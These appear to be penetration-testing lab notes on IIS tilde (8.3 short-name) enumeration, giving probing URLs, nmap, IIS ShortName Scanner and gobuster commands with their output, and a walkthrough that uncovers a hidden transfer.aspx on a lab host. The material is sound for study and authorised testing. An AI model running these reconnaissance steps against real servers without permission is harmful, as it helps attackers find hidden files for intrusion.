 # IIS Tilde Enumeration

IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names (aka the 8.3 format) on some versions of Microsoft Internet Information Services (IIS) web servers. 

When a file or folder is created on an IIS server, Windows generates a short file name in the 8.3 format

IIS tilde directory enumeration primarily involves sending HTTP requests to the server with distinct character combinations in the URL to identify valid short file names :
http://example.com/~a
http://example.com/~b
http://example.com/~c
...

http://example.com/~s :
server replies with a 200 OK status code, revealing a directory with a short name beginning with "s"

http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...

For example, if two files named somefile.txt and somefile1.txt exist in the same directory, their 8.3 short file names would be:

somefi~1.txt for somefile.txt
somefi~2.txt for somefile1.txt

## Enumeration

### nmap for IIS and its version

nmap -p- -sV -sC --open 10.129.224.91

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

--> IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option.

### Tilde Enumeration using IIS ShortName Scanner

java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP

### Generate Wordlist

egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt

### Gobuster Enumeration

gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp

===============================================================
2023/03/23 15:14:05 Starting gobuster in directory enumeration mode
===============================================================
/transf**.aspx        (Status: 200) [Size: 941]
Progress: 306 / 309 (99.03%)
===============================================================
2023/03/23 15:14:11 Finished
===============================================================

## LAB

nmap -p- -sV -sC --open 10.129.165.164

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

git clone https://github.com/irsdl/IIS-ShortName-Scanner

java -jar iis_shortname_scanner.jar 0 5 http://10.129.165.164/

egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
gobuster dir -u http://10.129.165.164/ -w /tmp/list.txt -x .aspx,.asp

/transfer.aspx        (Status: 200) [Size: 941]
